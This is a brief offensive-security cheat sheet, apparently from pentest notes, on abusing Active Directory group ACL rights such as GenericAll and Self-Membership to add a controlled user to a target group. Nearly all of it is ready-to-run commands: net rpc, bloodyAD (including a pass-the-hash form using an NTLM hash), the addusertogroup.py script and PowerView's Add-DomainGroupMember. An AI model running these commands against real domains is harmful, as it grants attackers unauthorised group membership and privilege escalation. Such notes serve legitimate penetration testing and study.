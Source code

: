 **this attack is possible when the controlled account has** `GenericAll`**,** `GenericWrite`**,** `Self`**,** `AllExtendedRights`, `Addself`**, or** `Self-Membership` **over the target group.**

Once we found the right user or group with one of these ACLs we can exploit it with the following commands

```sh
net rpc group addmem 'Vulnerable Group' otter -U domain.com/otter%'SomethingSecure123!' -S 10.10.10.10
# verify the changes took place
net rpc group members 'Vulnerable Group' -U domain.com/otter%SomethingSecure123! -S 10.10.10.10

bloodyAD --host "10.10.10.10" -d "domain.com" -u "username" -p "password" add groupMember 'groupName' 'userToAdd'
```

If we only have the hash for the user we can either use the [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) or bloodyAD

```sh
bloodyAD --host "10.10.10.10" -d "domain.com" -u "username" -p "ffffffffffffffffffffffffffffffff:<NTLM_HASH>" add groupMember 'groupName' 'userToAdd'
```

We can also use the [addusertogroup](https://github.com/juliourena/ActiveDirectoryScripts/blob/main/Python/addusertogroup.py) script
```sh
python3 addusertogroup.py -d domain.com -g "Vulnerable Group" -a otter -u otter -p 'SomethingSecure123!'
```

From windows we can use powerview
```sh
Add-DomainGroupMember -Identity "Vulnerable Group" -Members otter -Verbose
```
